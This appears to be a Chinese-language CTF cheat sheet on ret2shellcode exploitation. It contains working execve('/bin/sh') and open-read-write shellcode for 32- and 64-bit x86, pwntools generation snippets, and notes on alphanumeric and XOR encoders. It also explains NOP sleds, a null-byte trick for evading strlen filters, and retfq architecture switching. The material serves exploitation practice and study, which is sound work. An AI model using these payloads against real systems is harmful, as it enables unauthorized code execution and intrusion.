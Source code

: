 # ret2shellcode

> 程序中不存在 system("/bin/sh/")的代码段，自己恶意填入代码 shellcode 并在 **可执行段执行** 获取 shell
>
> shellcode参考：https://shell-storm.org/shellcode/index.html
>
> 一些特殊的系统调用参考：https://evian-zhang.github.io/introduction-to-linux-x86_64-syscall



## 1.手写 shellcode

* 32 位： 

  execve("/bin/sh", NULL, NULL) (21 字节)

  ```python
  shellcode = asm("""
      push 0x68732f
      push 0x6e69622f
      mov ebx,esp
      xor ecx,ecx
      xor edx,edx
      push 11
      pop eax
      int 0x80
  """)
  ```

  当被禁用了 system 的时候，orw (56 字节)：

  ```python
  shellcode = asm("""
      /*open(./flag)*/
      push 0x1010101
      xor dword ptr [esp], 0x1016660
      push 0x6c662f2e
      mov eax,0x5
      mov ebx,esp
      xor ecx,ecx
      int 0x80
      /*read(fd,buf,0x100)*/
      mov ebx,eax
      mov ecx,esp
      mov edx,0x30
      mov eax,0x3
      int 0x80
      /*write(1,buf,0x100)*/
      mov ebx,0x1
      mov eax,0x4
      int 0x80
  """)
  ```

* 64 位（22 字节）

  ```shell
  ; excve('/bin/sh','sh',0)
  ; rax: 0x3b
  ; rdi: '/bin/sh' 
  ; rsi: 'sh' 
  ; rdx; NULL
  ```

  ```shell
  xor 	rsi, rsi
  push	rsi	
  mov 	rdi, 0x68732f2f6e69622f
  push	rdi
  push	rsp		
  pop	    rdi			
  mov 	al,	59	
  cdq				
  syscall
  ```

* 可能会存在一些特殊情况需要我们构造更特殊的 shellcode ，这时我们就需要对汇编语言有较好的掌握，tips：`lea`, `xchg`，`cdq`,`pop`,`push`

## 2.pwntools 生成

shell（32 位 44 字节，64 位 48 字节）

```python
context.arch = elf.arch
shellcode = asm(shellcraft.sh())
```

orw（32 位 55 字节，64 位 66 字节）

```python
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('eax','esp',0x100)
shellcode += shellcraft.write(1,'esp',0x100)
shellcode = asm(shellcode)
```

```python
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('rax','rsp',0x100)
shellcode += shellcraft.write(1,'rsp',0x100)
shellcode = asm(shellcode)
```



## 3.特殊的 shellcode

https://github.com/rcx/shellcode_encoder

https://github.com/SkyLined/alpha3

纯 ASCII 的 shellcode：alpha3 项目可以实现可见 shellcode

注意：alpha3 生成 shellcode 时如果设置 rax 那么跳转至 shellcode 时 rax 必须为 shellcode 的地址。设置为其他寄存器同理

XOR编码shellcode：利用jmp/call编码器，寻找合适的key（与原始shellcode的每个字节不同，不然编码后为\x00，相当于没有编码），满足编码后的shellcode



可能常用的汇编指令：

```asm
1.数据传送:
push/pop eax…
pusha/popa

2.算术运算:
inc/dec eax…
sub al, 立即数
sub byte ptr [eax… + 立即数], al dl…
sub byte ptr [eax… + 立即数], ah dh…
sub dword ptr [eax… + 立即数], esi edi
sub word ptr [eax… + 立即数], si di
sub al dl…, byte ptr [eax… + 立即数]
sub ah dh…, byte ptr [eax… + 立即数]
sub esi edi, dword ptr [eax… + 立即数]
sub si di, word ptr [eax… + 立即数]

3.逻辑运算:
and al, 立即数
and dword ptr [eax… + 立即数], esi edi
and word ptr [eax… + 立即数], si di
and ah dh…, byte ptr [ecx edx… + 立即数]
and esi edi, dword ptr [eax… + 立即数]
and si di, word ptr [eax… + 立即数]

xor al, 立即数
xor byte ptr [eax… + 立即数], al dl…
xor byte ptr [eax… + 立即数], ah dh…
xor dword ptr [eax… + 立即数], esi edi
xor word ptr [eax… + 立即数], si di
xor al dl…, byte ptr [eax… + 立即数]
xor ah dh…, byte ptr [eax… + 立即数]
xor esi edi, dword ptr [eax… + 立即数]
xor si di, word ptr [eax… + 立即数]

4.比较指令:
cmp al, 立即数
cmp byte ptr [eax… + 立即数], al dl…
cmp byte ptr [eax… + 立即数], ah dh…
cmp dword ptr [eax… + 立即数], esi edi
cmp word ptr [eax… + 立即数], si di
cmp al dl…, byte ptr [eax… + 立即数]
cmp ah dh…, byte ptr [eax… + 立即数]
cmp esi edi, dword ptr [eax… + 立即数]
cmp si di, word ptr [eax… + 立即数]

5.转移指令:
push 56h
pop eax
cmp al, 43h
jnz lable

<=> jmp lable

6.交换al, ah
push eax
xor ah, byte ptr [esp] // ah ^= al
xor byte ptr [esp], ah // al ^= ah
xor ah, byte ptr [esp] // ah ^= al
pop eax

7.清零:
push 44h
pop eax
sub al, 44h ; eax = 0

push esi
push esp
pop eax
xor [eax], esi ; esi = 0
```

## 4.tips

对于一些栈布局的情况，我们可以采取使用 nop 滑行（b "\x90"）或 ret 滑行的技术，使其执行 shellcode

（nop 滑行优于 ret，因为 nop 只占用一字节，在随机化的情况下概率更大）

对于过滤 shellcode 的题目一般是采用 strlen 获取 shellcode 长度，因此可以在 shellcode 前加一个以 x00 开头的指令来绕过对 shellcode 的过滤



## 5.切换系统架构

64 位与 32 位架构的系统调用号是不同的：

* 64 位：0 read，1 write，2 open
* 32 位：3 read，4 write，5 open

CS 为代码段寄存器，IP 为指令指针寄存器，它们指示了 CPU 当前要读取指令的地址，任意时刻，8086CPU 都会将 CS: IP 指向的指令作为下一条需要取出执行的指令，cs 寄存器的 D 标志位，用以区分程序应该运行在 32 位还是 64 位架构上

cs 寄存器中 0x23 表示 32 位运行模式，0x33 表示 64 位运行模式（0x23:10 0011 ; 0x33:11 0011）

利用：retfq（retf）指令包含 ret 和 pop cs 两步，也就是先后 pop rip 和 cs，这样我们就能够切换系统架构。

注意：要设置好 rsp 寄存器，因为切换到 32 位时，寄存器也会被切换成 32 位，所以需要调整栈顶的指针





